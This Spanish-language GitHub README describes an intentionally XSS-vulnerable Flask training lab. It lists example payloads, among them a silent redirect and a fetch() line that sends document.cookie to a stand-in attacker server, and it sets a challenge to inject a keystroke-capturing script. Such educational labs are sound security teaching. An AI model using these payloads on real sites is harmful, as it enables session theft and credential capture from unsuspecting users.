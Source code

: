 [![🛡️ XSS Lab Interactive](https://img.shields.io/badge/XSS%20Lab%20Interactive-Click%20here-blue?style=for-the-badge&logo=javascript&color=green)](https://xsslabinteractive.pythonanywhere.com/)

*Plataforma colaborativa para aprender y practicar vulnerabilidades XSS de forma segura y controlada*

![GitHub license](https://img.shields.io/github/license/infernoidpl4y/XSSLab)  
![Python](https://img.shields.io/badge/Python-3.x-blue)  
![Flask](https://img.shields.io/badge/Flask-2.x-orange)  
![OWASP](https://img.shields.io/badge/OWASP-Top_10-red)  

---

## 🎯 ¿Qué es XSS Lab?
Un entorno de aprendizaje práctico para estudiantes y profesionales de ciberseguridad, diseñado para **entender y practicar la explotación de vulnerabilidades XSS (Cross-Site Scripting)** en un entorno seguro y controlado.

> "No es solo destruir... es entender cómo funciona la seguridad web"  
> - InfernoidPl4y

---

## 🔧 Características Principales
- ✅ **Vulnerable intencionalmente** para pruebas de seguridad  
- 📚 Entorno controlado para experimentación segura  
- 💬 Sistema de publicaciones con inyección XSS en campo de texto  
- 🎨 Ejemplo predefinido: `!inject` para payloads básicos  
- 📉 Datos reiniciados automáticamente cada 48 horas  
- 🌐 Desplegable en plataformas como PythonAnywhere  
- 🤝 Diseñado para aprendizaje comunitario

---

## 📦 Tecnologías Utilizadas
- 🐍 **Python** (Flask framework)
- 💻 **HTML/CSS** (Frontend interactivo)
- 🔐 Enfoque en OWASP Top 10 (XSS específicamente)

---

## 🚀 Instalación Local

### Requisitos:
- Python 3.x
- pip (Python Package Manager)

### Pasos:
```bash
# Clona el repositorio
git clone https://github.com/infernoidpl4y/XSSLab.git

# Accede al directorio
cd XSSLab

# Instala dependencias
pip install -r requirements.txt

# Ejecuta la aplicación
python app.py
```

---

## 🧪 Cómo Usarlo

1. Abre el navegador en `http://localhost:5000`
2. Crea una publicación con código XSS:
   ```html
   <script>alert('¡XSS básico!')</script>
   ```
3. **Ejemplo rápido:** Escribe `!inject` en el campo XSS para ver un payload predefinido
4. Observa el comportamiento y experimenta con diferentes payloads

---

## ⚠️ Aviso Importante
- **Solo para fines educativos**
- **No introduzcas información sensible**
- **Los datos se reinician periódicamente**

---

## 🧠 Ejemplos de Payloads para Pruebas

### Básico
```html
<script>alert('XSS')</script>
```

### Estilo Visual
```html
<style>
  body { background: red; transition: all 2s; }
</style>
```

### Redirección Silenciosa
```html
<script>window.location.href='https://example.com'</script>
```

### Captura de Cookies (Ejemplo académico)
```html
<script>
  fetch('https://tu-servidor.com/log?data='+document.cookie)
</script>
```

---

## 🧰 Desafíos Recomendados

### Nivel Principiante
- Crea una alerta que salte al cargar la página

### Nivel Intermedio
- Modifica el estilo de otra publicación

### Nivel Avanzado
- Inyecta un script que capture entradas del teclado

---

## 📸 Captura de Pantalla
![XSS Lab Demo](https://via.placeholder.com/800x500?text=XSS+Lab+Interactive+Demo)

---

## 🤝 Contribuciones
¡Las mejoras y contribuciones son bienvenidas!  
Por favor lee el [CONTRIBUTING.md](CONTRIBUTING.md) para más detalles.

---

## 📬 Contacto
InfernoidPl4y - infernoidpl4y@gmail.com  
Portfolio: [infernoidpl4y.netlify.app](https://infernoidpl4y.netlify.app)
